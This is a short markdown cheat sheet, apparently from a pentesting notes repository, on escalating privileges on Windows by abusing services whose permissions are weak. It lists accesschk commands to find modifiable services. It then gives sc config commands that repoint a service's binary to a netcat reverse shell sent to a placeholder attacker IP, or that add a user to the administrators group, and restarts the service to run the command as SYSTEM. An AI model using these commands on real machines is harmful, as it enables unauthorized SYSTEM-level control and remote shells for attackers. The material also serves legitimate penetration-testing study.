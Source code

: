 # Weak Service Permissions

## Check vulnerable services
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
```
All services that “Authenticated Users” can modify will be listed.<br>
Imagine service VulnService is vulnerable and we have "SERVICE_ALL_ACCESS" access right.<br>
"SERVICE_ALL_ACCESS" means user has full control on service and can modify the properties of the service

## Exploiting

### Check properties of the service 
```
sc qc VulnService
```
"BINARY_PATH_NAME" points to executable file for this service.

### Change binary path name of the service

Upload nc.exe to victim machine
```
sc config VulnService binpath= "C:\nc.exe <ATTACKER-IP> <ATTACKER-PORT> -e C:\WINDOWS\System32\cmd.exe"
sc config VulnService obj=".\LocalSystem" password=""
```

or user add to administrators group
```
sc config VulnService binpath= "net localgroup administrators <username> /add"
```

Check properties of the service again
```
sc qc VulnService
```
Finally, we will listen on the port with nc and restart the service.

### Restart Service
```
sc stop VulnService
sc start VulnService
```
When you try to start service it will return an error. However our command will run as SYSTEM successfully.

## Exploiting Metasploit
```
exploit/windows/local/service_permissions
```

## See also
* [Accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

